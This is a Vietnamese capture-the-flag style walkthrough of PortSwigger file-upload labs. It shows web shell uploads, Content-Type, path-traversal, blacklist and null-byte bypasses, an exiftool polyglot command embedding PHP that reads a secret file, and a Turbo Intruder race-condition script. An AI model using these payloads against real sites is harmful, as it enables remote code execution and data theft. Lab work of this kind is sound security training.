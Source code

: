 # WEB 04: File upload vulnerabilities

## Lab 01: Remote code execution via web shell upload

Tại lab này, server không thực hiện bất kể biện pháp phòng thủ nào nên tiến hành upload file exploit lên luôn

![](./images/image.png)

![](./images/image-1.png)

## Lab 02: Web shell upload via Content-Type restriction bypass

Ở lab này server chỉ cho upload các file có type là image/jpeg và image/png

![](./images/image-2.png)

Thay đổi lại type file

![](./images/image-3.png)

Upload lại

![](./images/image-4.png)

## Lab 03: Web shell upload via path traversal

![](./images/image-5.png)

Như ảnh trên, mặc dù file php được upload nhưng lại không được thực thi. 

![](./images/image-6.png)

Đúng như dự đoán, file <b>.htaccess</b> đã được đặt tại thư mục <b>files</b> và được config để mọi file trong <b>files</b> đều chỉ là file <b>static</b>

```
<Directory /var/www/files/avatars>
    SetHandler default-handler

</Directory>
```

Trong đầu mình lúc này có 2 cách làm:

### Case 1: Sử dụng kỹ thuật Path Traversal

Bạn đã biết file được lưu tại <b>/files/avatars/exp.php</b>

Nếu filename là: <b>../exp.php</b> thì file sẽ được lưu tại <b>/files/avatars/../exp.php</b>

Tức là <b>/files/exp.php</b>

![](./images/image-8.png)

### Case 2: Upload .htaccess để override lại cấu hình

Upload file <b>.htaccess</b> lên <b>avatars</b> để override lại cấu hình của <b>.htaccess</b> trong <b>files</b>

```
<FileMatch ".+\.ngn$">
	SetHandler application/x-httpd-php
</FileMatch>
```
Đoạn config trên nghĩa là bắt lại mọi file có đuôi là <b>ngn</b> và cho phép thực thi chúng như 1 file php

Nhưng điều đó chỉ dừng lại ở ý tưởng, vì server đã ngăn không cho upload <b>.htaccess</b> 😭😭😭

![](./images/image-9.png)

## Lab 03: Web shell upload via extension blacklist bypass

Lab này có 1 blacklist extension

Tiến hành kiểm tra 1 số ext phổ biến có thể thực thi được php

![](./images/image-10.png)

=> ext <b>.phar</b> không bị đưa vào blacklist

![](./images/image-11.png)

## Lab 04: Web shell upload via obfuscated file extension

![](./images/image-12.png)

Có thể thấy, mặc dù đã sửa các bit đầu của file là gif nhưng có lẽ server chỉ kiểm tra đuôi file mà không phải kiểm tra type file

Nếu ta sử dụng ký tự null byte <b>exp.php%00.jpg</b>

Lúc này, code php sẽ kiểm tra và ext là jpg => đúng, cho qua

httpd mod apache sẽ kiểm tra và nhận thấy ký tự null byte => tên file mà httpd nhận được sẽ là <b>exp.php</b>

![](./images/image-13.png)

Kết quả:

![](./images/image-14.png)

## Lab 05: Remote code execution via polyglot web shell upload
![](./images/image-16.png)

![](./images/image-15.png)

Có thể thấy server đã không check phần đuôi file, ta vẫn có thể upload file php được

Nhưng server lại check rất kỹ phần nội dung của file để xác định đó chính xác là 1 file ảnh mà không phải có nội dung là text

Chính vì php vẫn được upload và được thực thi nên ta sử dụng exiftool để thêm 1 comment vào nội dung ảnh có đuôi file là <b>.php</b>.

![](./images/image-18.png)

```
exiftool -Comment="<?php echo 'GET SECRET ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ptit.png -o exp.php
```
![](./images/image-20.png)

Kết quả:

![](./images/image-21.png)

## Lab 06: Web shell upload via race condition

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
         echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

Ở đoạn code trên có thể thấy server lưu file tải lên rồi mới kiểm tra file, nếu file là độc hại thì mới xóa file, nếu không độc hại thì giữ nguyên

Vậy sẽ ra sao nếu như khi file tải lên vừa được lưu thì ta request tới file đấy luôn?

Trong khoảng thời gian từ lúc bắt đầu đến trước khi hoàn thành việc kiểm tra virus ta đều có thể request để lấy file đã tải

Vậy nên ta gửi đồng thời reuqest tải file và lấy file cùng 1 lúc bằng cách sử dụng <b>turbo intruder</b>

Send request tới turbo intruder

![](./images/image-22.png)

![](./images/image-23.png)

Với payload do PortSwigger cung cấp:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
``` 

![](./images/image-24.png)

Với <b><YOUR-POST-REQUEST></b> là request post file <b>exp.php</b>

<b><YOUR-GET-REQUEST></b> là reuqest get file <b>exp.php</b>

![](./images/image-25.png)

Sau đó nhấn attack

Đoạn code trên sẽ đưa request post vào đầu hàng đợi cùng với đó là 5 request get để tăng xác xuất get được file trước khi bị xóa

Kết quả:

![](./images/image-26.png)

